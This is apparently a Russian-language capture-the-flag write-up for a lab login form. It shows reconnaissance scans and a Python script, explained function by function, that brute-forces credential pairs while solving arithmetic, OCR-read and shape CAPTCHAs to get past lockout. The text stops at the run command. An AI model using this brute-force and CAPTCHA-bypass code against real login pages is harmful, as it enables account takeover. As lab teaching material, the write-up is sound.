



# Capture Returns



---

### 🇬🇧 Task Description

The developers have improved their login form since last time. Can you bypass it?

The company **SecureSolaCoders** had previously developed a login form. However, many people were able to bypass it due to the poor implementation. The developers have now fixed their previous mistakes to ensure that no users are able to both enumerate and exploit the new solution. Can you confirm that the login form is actually bulletproof?

### 🇷🇺 Описание задачи

Разработчики улучшили форму входа с прошлого раза. Сможем ли мы снова её обойти?

Компания **SecureSolaCoders** ранее разработала форму входа, но из-за плохой реализации многие смогли её обойти. Теперь разработчики исправили прошлые ошибки и хотят убедиться, что пользователи больше не смогут одновременно перечислять учётные записи и эксплуатировать новую защиту. Нужно проверить, действительно ли форма входа стала “bulletproof”.

---

### 📦 Task Files

Перед началом задачи скачиваем файлы через кнопку **Download Task Files**. Внутри папки задачи они лежат здесь:

```text
capturereturns-1684693087551/
├── passwords.txt
└── usernames.txt
```

Эти файлы понадобятся позже для проверки формы входа: один содержит список возможных логинов, второй — список возможных паролей.

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

Первым делом проверим доступность целевой машины и посмотрим, какие сервисы открыты.

#### ⚡ Базовое сканирование портов (nmap)

Начинаем с обычного сканирования популярных портов с определением сервисов и версий:

```bash
nmap -sC -sV 10.128.138.52
```

**Описание команды и флагов:**
- `nmap` — инструмент для сетевой разведки и аудита открытых портов.
- `-sC` — запускает стандартные NSE-скрипты (`default`). Они помогают собрать базовую информацию о сервисах.
- `-sV` — определяет версии сервисов на открытых портах.
- `10.128.138.52` — IP-адрес целевой машины.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-28 18:11 +0300
Nmap scan report for 10.128.138.52
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6b:68:55:13:6f:43:9c:28:39:d1:cd:fd:6f:33:e9:10 (RSA)
|   256 76:82:c9:3f:fd:83:b8:d6:4f:cf:e0:14:6e:f7:b5:c4 (ECDSA)
|_  256 e6:a3:68:47:de:f5:f3:ae:ae:0e:70:74:45:07:09:bc (ED25519)
80/tcp open  http    Gunicorn 20.0.4
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Обнаружено два открытых порта:

| Порт | Сервис | Версия | Примечание |
|------|--------|--------|------------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu | Потенциальная точка входа после получения учётных данных |
| 80/tcp | HTTP | Gunicorn 20.0.4 | Веб-приложение с формой логина |

`nmap` также показал, что при обращении к HTTP-серверу запрашиваемый ресурс перенаправляет на `/login`. Это совпадает с описанием задачи: основная цель — форма входа.

---

#### 🧭 Полное сканирование всех TCP-портов

Чтобы убедиться, что за пределами популярных портов ничего не спрятано, запускаем полный TCP-скан:

```bash
nmap -T5 -p- -sS -n --min-rate 5000 10.128.138.52
```

**Описание флагов:**
- `-T5` — агрессивный тайминг сканирования, ускоряет процесс.
- `-p-` — проверить все TCP-порты от `1` до `65535`.
- `-sS` — SYN-сканирование, быстрый и популярный режим TCP-скана.
- `-n` — не выполнять DNS-резолвинг, то есть не пытаться преобразовать IP в доменное имя.
- `--min-rate 5000` — отправлять не меньше 5000 пакетов в секунду.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-28 18:17 +0300
Warning: 10.128.138.52 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.128.138.52
Host is up (0.077s latency).
Not shown: 60315 closed tcp ports (reset), 5218 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.84 seconds
```

Полный скан не нашёл дополнительных открытых портов: доступны только `22/tcp` и `80/tcp`. Предупреждение `retransmission cap hit` говорит, что из-за высокой скорости `nmap` перестал повторно проверять часть портов после лимита повторных отправок, но в текущем контексте картина совпадает с базовым сканом.

---

### 🗂️ Шаг 2: Перебор директорий через gobuster

Проверяем, есть ли на веб-сервере скрытые директории или файлы:

```bash
gobuster dir -u http://10.128.138.52 -w /usr/share/wordlists/dirb/common.txt
```

**Описание команды и флагов:**
- `gobuster` — инструмент для перебора директорий, файлов, DNS-имён и других сущностей.
- `dir` — режим перебора директорий и файлов на веб-сервере.
- `-u http://10.128.138.52` — базовый URL цели.
- `-w /usr/share/wordlists/dirb/common.txt` — словарь, из которого берутся имена путей для проверки.

**Результат:**

```text
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.128.138.52
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login                (Status: 200) [Size: 1944]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

Найден только путь:

```text
/login
```

Это подтверждает, что основная поверхность атаки — форма авторизации.

---

### 🌐 Шаг 3: Анализ HTTP-ответа и формы входа

Проверяем HTTP-ответ вручную через `curl`:

```bash
curl -i -L --max-time 10 http://10.128.138.52/
```

**Описание флагов:**
- `curl` — инструмент для отправки HTTP-запросов из терминала.
- `-i` — показать HTTP-заголовки ответа вместе с телом страницы.
- `-L` — следовать редиректам. В нашем случае `/` отдаёт `302` и перенаправляет на `/login`.
- `--max-time 10` — ограничить общее время запроса 10 секундами, чтобы команда не зависла.
- `http://10.128.138.52/` — начальный URL.

**Результат:**

```http
HTTP/1.1 302 FOUND
Server: gunicorn/20.0.4
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Content-Type: text/html; charset=utf-8
Content-Length: 1944
Vary: Cookie
```

Сначала сервер отвечает `302 FOUND` и отправляет нас на `/login`, затем `/login` возвращает `200 OK`.

В HTML видим форму:

```html
<form action="" method="POST">
    <h1>Administrator login</h1>
    <label for="usr"><b>Username</b></label>
    <input type="text" placeholder="Firstname" name="username" id="username" value="" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Password" name="password" id="password" value="" required>

    <button type="submit" class="login_button"><b>Log in</b></button>
</form>
```

Важные детали:

- форма отправляется методом `POST`;
- поле логина называется `username`;
- поле пароля называется `password`;
- `action=""` означает, что запрос отправляется на текущий путь `/login`;
- в ответе есть `Vary: Cookie`, значит приложение может использовать cookies/session-state.

Открываем страницу в браузере:



Перед нами простая форма **Administrator login**, разработанная **SecureSolaCoders**. С учётом выданных файлов `usernames.txt` и `passwords.txt`, дальше будем проверять, можно ли перечислять пользователей и подбирать пароль, несмотря на заявленную защиту формы.

---

### 🧪 Шаг 4: Первая попытка перебора через Burp Suite

Так как вместе с заданием нам выдали списки `usernames.txt` и `passwords.txt`, первое очевидное предположение — попробовать обычный перебор формы входа через **Burp Suite Intruder**.

Идея простая:

1. Перехватить `POST`-запрос на `/login`.
2. Пометить параметры `username` и/или `password` как позиции для перебора.
3. Подставлять значения из выданных словарей.
4. Сравнивать ответы сервера по статусу, длине, тексту ошибки или редиректу.

Но после нескольких неверных попыток срабатывает защитный механизм:



Сайт сообщает:

```text
Detected 3 incorrect login attempts!
You need to successfully solve 3 captchas in a row
```

Ниже появляется математическая капча, например:

```text
876 * 82 = ?
```

После правильного ответа сайт показывает прогресс:

```text
Correct!
Captchas solved: 1/3
```

То есть форма не позволяет просто отправлять много запросов подряд. После трёх неверных логинов приложение требует решить **3 капчи подряд**, и только после этого можно продолжать попытки входа.

Прямой brute force через Burp Intruder упирается в этот механизм защиты. При этом CAPTCHA не графическая в классическом смысле: она состоит из простых арифметических выражений, а иногда может быть представлена как текст или картинка. Поэтому следующий шаг — автоматизировать перебор так, чтобы скрипт умел распознавать момент блокировки, решать CAPTCHA и продолжать проверку пар.

---

### 🤖 Шаг 5: Автоматизация перебора и обход CAPTCHA

Обычный Burp Intruder не подходит, потому что после нескольких неверных попыток сайт включает CAPTCHA-защиту. Поэтому используем свой скрипт:

```text
thm_login_check.py
```

Его задача — делать то же, что мы хотели сделать руками в Burp, но с учётом защитного механизма:

- читать логины из `usernames.txt`;
- читать пароли из `passwords.txt`;
- отправлять `POST`-запросы на `/login`;
- отслеживать момент, когда включилась CAPTCHA;
- автоматически решать CAPTCHA;
- продолжать перебор после разблокировки формы;
- сохранять неудачные пары, чтобы можно было продолжить перебор без повторной проверки уже протестированных комбинаций.

---

#### 📌 Почему нужен именно скрипт

Сайт блокирует прямой brute force после трёх неверных попыток:

```text
Detected 3 incorrect login attempts!
You need to successfully solve 3 captchas in a row
```

Это значит, что логика перебора должна быть такой:

1. Проверяем очередную пару `username:password`.
2. Если CAPTCHA не активна — отправляем логин и пароль.
3. Если CAPTCHA активна — решаем её.
4. Повторяем решение CAPTCHA, пока сайт снова не покажет обычную форму входа.
5. Продолжаем перебор следующей пары.

Именно это делает `thm_login_check.py`.

---

#### 🧩 Из каких библиотек состоит скрипт

Перед разбором функций важно понять, какие библиотеки используются и за что они отвечают:

```python
import argparse
import base64
import operator
import re
from io import BytesIO
from pathlib import Path

import requests
from bs4 import BeautifulSoup
from PIL import Image

import cv2
import numpy as np
import pytesseract
```

**Стандартная библиотека Python:**

- `argparse` — разбирает аргументы командной строки: `--url`, `--users`, `--passwords`, `--mode`, `--proxy`.
- `base64` — декодирует CAPTCHA-картинки, если они встроены в HTML как `data:image/png;base64,...`.
- `operator` — даёт готовые функции для арифметики: `operator.add`, `operator.sub`, `operator.mul`.
- `re` — регулярные выражения, нужны для поиска примеров вроде `876 * 82 = ?` в тексте страницы.
- `BytesIO` — позволяет обращаться к байтам картинки как к файлу в памяти.
- `Path` — удобная работа с файлами: чтение словарей, запись `bad_pairs.txt`, сохранение debug-файлов.

**Внешние библиотеки:**

- `requests` — отправляет HTTP-запросы к `/login`.
- `BeautifulSoup` из `bs4` — парсит HTML и достаёт текст страницы или тег ``.
- `PIL.Image` — открывает PNG-картинку из байтов.
- `cv2` (`OpenCV`) — обрабатывает изображения: grayscale, resize, blur, threshold, contours.
- `numpy` — превращает `PIL.Image` в массив пикселей для OpenCV.
- `pytesseract` — OCR-обёртка над Tesseract, распознаёт текст с CAPTCHA-картинки.

То есть скрипт состоит из трёх больших частей:

1. HTTP-логика: `requests`.
2. HTML-парсинг: `BeautifulSoup`.
3. CAPTCHA-распознавание: `PIL` + `OpenCV` + `Tesseract`.

---

#### 🔄 Общий поток данных

Когда скрипт получает страницу `/login`, библиотека `requests` возвращает объект:

```python
response = session.get(url, timeout=10)
```

Тип `response`:

```text
requests.models.Response
```

Нас чаще всего интересует:

- `response.text` — HTML-страница как строка (`str`);
- `response.status_code` — HTTP-код ответа (`int`);
- `response.history` — список редиректов, если они были (`list`).

Дальше почти все функции работают не с объектом `Response`, а именно с HTML-строкой:

```python
response.text
```

То есть когда мы видим функцию:

```python
def captcha_active(html):
```

в `html` передаётся обычная Python-строка (`str`) с HTML-кодом страницы.

---

#### 🧹 Преобразование HTML в чистый текст

Сначала скрипту нужно убрать HTML-теги и получить обычный текст страницы. Для этого есть функция `page_text()`:

```python
def page_text(html):
    soup = BeautifulSoup(html, "html.parser")
    return soup.get_text(" ", strip=True)
```

Разбор:

- `html` — строка (`str`) с HTML-кодом страницы.
- `BeautifulSoup(html, "html.parser")` — создаёт объект `BeautifulSoup`, то есть разобранное HTML-дерево.
- `"html.parser"` — встроенный Python-парсер HTML.
- `soup.get_text(" ", strip=True)` — достаёт весь видимый текст со страницы.

Параметры `get_text()`:

- `" "` — разделитель между кусками текста. Без него слова из разных тегов могли бы склеиться.
- `strip=True` — убрать лишние пробелы и переносы по краям.

На вход:

```html
<h1>Administrator login</h1>
<p>Detected 3 incorrect login attempts!</p>
```

На выход:

```text
Administrator login Detected 3 incorrect login attempts!
```

Функция возвращает строку (`str`).

---

#### 🧠 Как скрипт понимает, что включилась CAPTCHA

Функция `captcha_active()` берёт текст страницы и ищет характерные фразы:

```python
def captcha_active(html):
    text = page_text(html).lower()
    return (
        "detected 3 incorrect login attempts" in text
        or "you need to successfully solve" in text
        or "invalid captcha" in text
    )
```

Подробный разбор:

- `html` — строка (`str`) с HTML-кодом текущей страницы.
- `page_text(html)` — превращает HTML в обычный текст без тегов.
- `.lower()` — метод строки (`str.lower()`), приводит весь текст к нижнему регистру.

Зачем нужен `.lower()`:

```text
Detected 3 incorrect login attempts!
```

и

```text
detected 3 incorrect login attempts!
```

после `.lower()` становятся одинаковыми. Это делает проверку устойчивее к регистру.

Дальше используется оператор `in`:

```python
"detected 3 incorrect login attempts" in text
```

Он проверяет, есть ли подстрока внутри большой строки. Результат каждой такой проверки — `True` или `False`.

Оператор `or` объединяет несколько условий:

- если найдено сообщение про 3 неверных попытки;
- или найдено сообщение про необходимость решить CAPTCHA;
- или найдено сообщение `invalid captcha`;

то функция возвращает `True`.

Если ни одной фразы нет, функция возвращает `False`.

Итого:

| Вход | Тип | Пример |
|------|-----|--------|
| `html` | `str` | HTML-код страницы `/login` |

| Выход | Тип | Значение |
|-------|-----|----------|
| результат | `bool` | `True`, если CAPTCHA активна; `False`, если можно пробовать логин |

---

#### 🧮 Решение математической CAPTCHA из текста

Иногда пример находится прямо в HTML:

```text
876 * 82 = ?
```

Тогда скрипт достаёт выражение регулярным выражением:

```python
match = re.search(r"(\d+)\s*([+\-*/])\s*(\d+)\s*=\s*\?", text)
```

Это происходит в функции `solve_math_from_text(html)`.

Вход:

- `html` — строка (`str`) с HTML страницы.

Сначала функция вызывает:

```python
text = page_text(html)
```

и получает обычный текст страницы. После этого `re.search()` ищет арифметический пример.

Разбор регулярного выражения:

| Часть | Значение |
|-------|----------|
| `(\d+)` | первая группа: одно или больше чисел |
| `\s*` | любое количество пробелов |
| `([+\-*/])` | вторая группа: оператор `+`, `-`, `*` или `/` |
| `\s*` | снова пробелы |
| `(\d+)` | третья группа: второе число |
| `\s*=\s*\?` | знак `=`, пробелы и вопросительный знак |

`re.search()` возвращает либо:

- объект `re.Match`, если пример найден;
- `None`, если такого примера в тексте нет.

Если пример найден, скрипт берёт:

- первое число;
- оператор (`+`, `-`, `*`, `/`);
- второе число;

и вычисляет ответ через словарь операций:

```python
OPS = {
    "+": operator.add,
    "-": operator.sub,
    "*": operator.mul,
    "/": lambda a, b: a // b,
}
```

Здесь:

- ключ словаря — строка с оператором;
- значение — функция, которую надо вызвать.

Например, если оператор `*`, то:

```python
OPS["*"]
```

вернёт:

```python
operator.mul
```

а затем:

```python
OPS["*"](876, 82)
```

посчитает:

```text
71832
```

Например:

```text
876 * 82 = 71832
```

Функция возвращает ответ строкой (`str`), потому что дальше этот ответ отправляется в HTTP POST-форме:

```python
return str(OPS[op](a, b))
```

Если пример не найден, возвращается `None`.

---

#### 🖼️ Решение CAPTCHA из картинки

Иногда CAPTCHA может быть не текстом, а PNG-картинкой внутри HTML:

```text
data:image/png;base64,...
```

В этом случае скрипт:

1. Находит тег ``.
2. Достаёт base64-строку.
3. Декодирует её в изображение.
4. Обрабатывает картинку через OpenCV:
   - переводит в grayscale;
   - увеличивает размер;
   - размывает шум;
   - применяет threshold.
5. Передаёт результат в Tesseract OCR.

Сначала работает функция `extract_png(html)`:

```python
def extract_png(html):
    soup = BeautifulSoup(html, "html.parser")
    img = soup.find("img")
    if not img:
        return None

    src = img.get("src", "")
    prefix = "data:image/png;base64,"
    if not src.startswith(prefix):
        return None

    raw = base64.b64decode(src[len(prefix):])
    return Image.open(BytesIO(raw)).convert("RGB")
```

Разбор:

- `BeautifulSoup(html, "html.parser")` — парсим HTML.
- `soup.find("img")` — ищем первый тег ``.
- `img.get("src", "")` — берём значение атрибута `src`; если его нет, возвращаем пустую строку.
- `src.startswith(prefix)` — проверяем, что картинка встроена прямо в HTML в base64-формате.
- `src[len(prefix):]` — отрезаем начало `data:image/png;base64,`, оставляя только base64-данные.
- `base64.b64decode(...)` — превращаем base64-строку в байты (`bytes`).
- `BytesIO(raw)` — создаём файловый объект в памяти из этих байтов.
- `Image.open(...)` — открываем картинку через Pillow.
- `.convert("RGB")` — приводим изображение к RGB-формату.

Возвращаемое значение:

- объект `PIL.Image.Image`, если картинка найдена;
- `None`, если картинки нет или формат не подходит.

Дальше работает `solve_math_from_image(html)`. Она получает HTML (`str`), достаёт картинку через `extract_png()`, а потом готовит изображение для OCR:

```python
arr = np.array(image)
gray = cv2.cvtColor(arr, cv2.COLOR_RGB2GRAY)
gray = cv2.resize(gray, None, fx=3, fy=3, interpolation=cv2.INTER_CUBIC)
gray = cv2.GaussianBlur(gray, (3, 3), 0)
_, thresh = cv2.threshold(gray, 180, 255, cv2.THRESH_BINARY)
```

Что здесь происходит:

- `np.array(image)` — превращает `PIL.Image` в `numpy.ndarray`, то есть массив пикселей.
- `cv2.cvtColor(..., cv2.COLOR_RGB2GRAY)` — переводит изображение из RGB в grayscale, потому что OCR проще работать с одним каналом яркости.
- `cv2.resize(..., fx=3, fy=3)` — увеличивает картинку в 3 раза по ширине и высоте.
- `cv2.GaussianBlur(..., (3, 3), 0)` — слегка размывает изображение, чтобы убрать шум.
- `cv2.threshold(gray, 180, 255, cv2.THRESH_BINARY)` — превращает картинку в чёрно-белую: пиксели выше порога становятся белыми, ниже — чёрными.

После этого подготовленная картинка `thresh` передаётся в OCR.

Ключевая часть:

```python
config = "--psm 7 -c tessedit_char_whitelist=0123456789+-*/=?"
text = pytesseract.image_to_string(thresh, config=config)
```

`--psm 7` говорит Tesseract, что перед ним одна строка текста, а `tessedit_char_whitelist` ограничивает распознавание только нужными символами: цифры, операторы и знак вопроса.

`pytesseract.image_to_string()` возвращает строку (`str`) с распознанным текстом. Потом скрипт чистит её:

```python
text = text.replace("x", "*").replace("X", "*")
text = re.sub(r"[^0-9+\-*/= ?]", "", text)
```

Зачем:

- OCR может распознать `*` как `x` или `X`, поэтому заменяем обратно на `*`.
- `re.sub(...)` удаляет все лишние символы, оставляя только цифры, операторы, `=`, пробел и `?`.

Дальше используется похожий `re.search()`, чтобы достать числа и оператор, посчитать ответ и вернуть его строкой.

---

#### 🔺 Решение shape CAPTCHA

Скрипт также умеет решать CAPTCHA с фигурами, если страница просит:

```text
Describe the shape below (circle, square, or triangle)
```

Для этого он находит контур фигуры через OpenCV и считает количество вершин:

- `3` вершины → `triangle`;
- `4` вершины и почти равные стороны → `square`;
- всё остальное → `circle`.

Это делает функция `solve_shape_from_image(html)`.

Вход:

- `html` — строка (`str`) с HTML страницы.

Сначала она также вызывает `extract_png(html)` и получает `PIL.Image`. Потом изображение переводится в массив пикселей и обрабатывается:

```python
arr = np.array(image)
gray = cv2.cvtColor(arr, cv2.COLOR_RGB2GRAY)
blurred = cv2.GaussianBlur(gray, (5, 5), 0)
_, thresh = cv2.threshold(blurred, 245, 255, cv2.THRESH_BINARY_INV)
```

Здесь:

- `cv2.THRESH_BINARY_INV` инвертирует изображение: объект становится белым на чёрном фоне, так OpenCV проще искать контуры.
- `cv2.findContours(...)` ищет границы объектов на картинке.

Дальше:

```python
contours, _ = cv2.findContours(thresh, cv2.RETR_EXTERNAL, cv2.CHAIN_APPROX_SIMPLE)
contours = [c for c in contours if cv2.contourArea(c) > 500]
```

- `cv2.RETR_EXTERNAL` — берём только внешние контуры.
- `cv2.CHAIN_APPROX_SIMPLE` — упрощаем хранение точек контура.
- `cv2.contourArea(c) > 500` — отбрасываем мелкий шум.

Потом выбирается самый большой контур:

```python
contour = max(contours, key=cv2.contourArea)
```

И контур упрощается до многоугольника:

```python
perimeter = cv2.arcLength(contour, True)
approx = cv2.approxPolyDP(contour, 0.04 * perimeter, True)
vertices = len(approx)
```

- `cv2.arcLength()` считает периметр.
- `cv2.approxPolyDP()` упрощает контур до набора углов.
- `len(approx)` — количество вершин.

Логика классификации:

```python
if vertices == 3:
    return "triangle"

if vertices == 4:
    x, y, w, h = cv2.boundingRect(approx)
    ratio = w / float(h)
    if 0.80 <= ratio <= 1.20:
        return "square"

return "circle"
```

Если 3 вершины — треугольник. Если 4 вершины и ширина примерно равна высоте — квадрат. Всё остальное считаем кругом.

Функция возвращает строку (`str`): `triangle`, `square`, `circle`, либо `None`, если картинка не распознана.

---

#### 🔁 Прохождение CAPTCHA-цикла

Главная функция для обхода блокировки — `clear_captcha()`:

```python
def clear_captcha(session, url, max_rounds=20):
    response = session.get(url, timeout=10)

    for round_no in range(1, max_rounds + 1):
        if not captcha_active(response.text):
            return response

        answer = solve_captcha(response.text)
        response = session.post(url, data={"captcha": answer}, timeout=10)
```

Типы данных:

- `session` — объект `requests.Session`.
- `url` — строка (`str`) с адресом `/login`.
- `max_rounds` — число (`int`), максимальное количество попыток.
- `response` — объект `requests.Response`.
- `response.text` — HTML как строка (`str`).
- `answer` — строка (`str`) с ответом на CAPTCHA.

Почему используется `requests.Session`, а не просто `requests.get()`:

```python
session = requests.Session()
```

`Session` сохраняет cookies между запросами. Это критично, потому что сайт считает неудачные попытки и прогресс CAPTCHA в рамках одной сессии. Если каждый запрос делать без сохранения cookies, сервер может видеть нас как нового клиента или сбрасывать состояние.

Что делает функция:

1. Скрипт открывает `/login`.
2. Проверяет, активна ли CAPTCHA.
3. Если CAPTCHA есть — решает её.
4. Отправляет ответ как `captcha=<answer>`.
5. Повторяет цикл, пока обычная форма логина не станет доступна снова.

Параметр `--captcha-rounds` задаёт максимальное количество попыток решения CAPTCHA за один цикл. Мы используем запас, потому что если OCR ошибётся хотя бы один раз, сайт может сбросить серию правильных ответов.

Если скрипт не смог решить CAPTCHA, он сохраняет debug-файлы:

```python
Path("debug_captcha.html").write_text(html, encoding="utf-8")
image.save("debug_captcha.png")
```

Это помогает вручную посмотреть, что именно не распозналось.

---

#### 💣 Режимы перебора: clusterbomb и pitchfork

Скрипт поддерживает два режима, похожие на Burp Intruder.

**clusterbomb** — режим по умолчанию. Он проверяет каждый логин с каждым паролем:

```text
rachel:goodluck
rachel:claudia
rachel:142536
...
bart:goodluck
bart:claudia
bart:142536
...
```

Если в списках `29` логинов и `108` паролей, получится:

```text
29 * 108 = 3132 попытки
```

**pitchfork** — сопоставляет строки по индексу:

```text
usernames[0]:passwords[0]
usernames[1]:passwords[1]
usernames[2]:passwords[2]
```

Для этой задачи логичнее использовать `clusterbomb`, потому что мы не знаем, какой пароль относится к какому пользователю.

За построение списка попыток отвечает функция `build_attempts()`:

```python
def build_attempts(users, passwords, mode):
    if mode == "clusterbomb":
        return [(username, password) for username in users for password in passwords]

    if len(users) != len(passwords):
        print(
            f"[!] pitchfork mode: usernames={len(users)} passwords={len(passwords)}; "
            f"using first {min(len(users), len(passwords))} pairs"
        )
    return list(zip(users, passwords))
```

Типы данных:

- `users` — список строк (`list[str]`) с логинами.
- `passwords` — список строк (`list[str]`) с паролями.
- `mode` — строка (`str`): `clusterbomb` или `pitchfork`.
- результат — список кортежей (`list[tuple[str, str]]`), где каждый кортеж выглядит как `(username, password)`.

В режиме `clusterbomb` используется list comprehension:

```python
[(username, password) for username in users for password in passwords]
```

Это вложенный цикл в одну строку. Он эквивалентен такому коду:

```python
attempts = []
for username in users:
    for password in passwords:
        attempts.append((username, password))
```

В режиме `pitchfork` используется `zip(users, passwords)`. Функция `zip()` берёт элементы с одинаковым индексом из двух списков:

```text
users[0] + passwords[0]
users[1] + passwords[1]
users[2] + passwords[2]
```

Если списки разной длины, `zip()` остановится на самом коротком списке, поэтому скрипт заранее выводит предупреждение.

---

#### 🧷 Resume: пропуск уже проверенных пар

Полный перебор может занять время из-за CAPTCHA. Чтобы не начинать заново после остановки, скрипт сохраняет неудачные пары в:

```text
bad_pairs.txt
```

Формат:

```text
username:password
```

Это важно: сохранять только плохие пароли недостаточно. Если пара `bart:mibebe` не подошла, это не значит, что пароль `mibebe` не подойдёт другому пользователю.

Для продолжения перебора используем:

```bash
./thm_login_check.py --proxy --mode clusterbomb --captcha-rounds 40 \
  --exclude-pairs bad_pairs.txt
```

Тогда скрипт построит полный список пар и пропустит те, которые уже были проверены.

За чтение файлов отвечает функция `read_words()`:

```python
def read_words(path):
    path = Path(path)
    if not path.exists():
        return []
    return [line.strip() for line in path.read_text().splitlines() if line.strip()]
```

Разбор:

- `path` может прийти как строка (`str`), например `"usernames.txt"`.
- `Path(path)` превращает строку в объект `Path`.
- `path.exists()` проверяет, существует ли файл.
- `path.read_text()` читает весь файл как строку.
- `.splitlines()` разбивает файл на строки.
- `line.strip()` убирает пробелы и переносы строк.
- `if line.strip()` пропускает пустые строки.

Функция возвращает список строк (`list[str]`).

Неудачные пары сохраняются функцией `append_word()`:

```python
def append_word(path, word, seen):
    if word in seen:
        return
    with Path(path).open("a", encoding="utf-8") as handle:
        handle.write(word + "\n")
    seen.add(word)
```

Типы данных:

- `path` — путь к файлу (`str` или `Path`);
- `word` — строка (`str`), в нашем случае пара `username:password`;
- `seen` — множество (`set[str]`) уже записанных значений.

Зачем нужен `seen`:

- чтобы не записывать одну и ту же пару в `bad_pairs.txt` много раз;
- проверка `word in seen` для множества работает быстро.

Пара формируется функцией:

```python
def pair_key(username, password):
    return f"{username}:{password}"
```

На вход идут две строки, на выходе получается строка формата:

```text
bertie:marilyn
```

---

#### 🧰 Запуск скрипта

Переходим в папку со скачанными task files или указываем пути явно:

```bash
python3 thm_login_check.py \
  --url http://10.128.138.52/login \
  --users capturereturns-1684693087551/usernames.txt \
  --passwords capturereturns-1684693087551/passwords.txt \
  --mode clusterbomb \
  --captcha-rounds 40 \
  --proxy
```

**Описание параметров:**
- `--url` — адрес формы входа.
- `--users` — путь к списку логинов.
- `--passwords` — путь к списку паролей.
- `--mode clusterbomb` — проверять каждый логин с каждым паролем.
- `--captcha-rounds 40` — дать скрипту запас попыток на прохождение CAPTCHA.
- `--proxy` — отправлять трафик через Burp Proxy `127.0.0.1:8080`, чтобы можно было смотреть запросы и ответы.

